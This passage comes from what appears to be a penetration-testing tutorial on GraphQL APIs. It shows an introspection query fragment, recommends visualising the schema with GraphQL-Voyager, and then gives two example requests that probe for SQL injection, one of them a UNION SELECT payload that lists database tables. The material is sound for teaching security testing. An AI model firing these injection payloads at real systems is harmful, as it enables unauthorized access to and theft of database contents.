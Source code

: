 ```graphql
    fragment TypeRef on __Type {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```

The result of this query is quite large and complex. However, we can visualize the schema using the tool [GraphQL-Voyager](https://github.com/graphql-kit/graphql-voyager). We can also use [GraphQL Demo](https://graphql-kit.com/graphql-voyager/). However, in a real engagement, we should follow the GitHub instructions to host the tool ourselves so that we can ensure that no sensitive information leaves our system.

## SQL Injection

Since GraphQL is a query language, the most common use case is fetching data from some kind of storage, typically a database. As SQL databases are one of the most predominant forms of databases, SQL injection vulnerabilities can inherently occur in GraphQL APIs that do not properly sanitize user input from arguments in the SQL queries executed by the backend. Therefore, we should carefully investigate all GraphQL queries, check whether they support arguments, and analyze these arguments for potential SQL injections
```
{"query":"{\n \tcustomerByName(apiKey:\"0711a879ed751e63330a78a4b195bbad\", lastName: \"Blair'\"){\n  \tfirstName\n    lastName\n    address\n\t}\n}","variables":null,"operationName":null}


{"query":"{\n \tcustomerByName(apiKey:\"0711a879ed751e63330a78a4b195bbad\", lastName: \"x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=database()-- -\"){\n  \tfirstName\n    lastName\n    address\n\t}\n}","variables":null,"operationName":null}


```
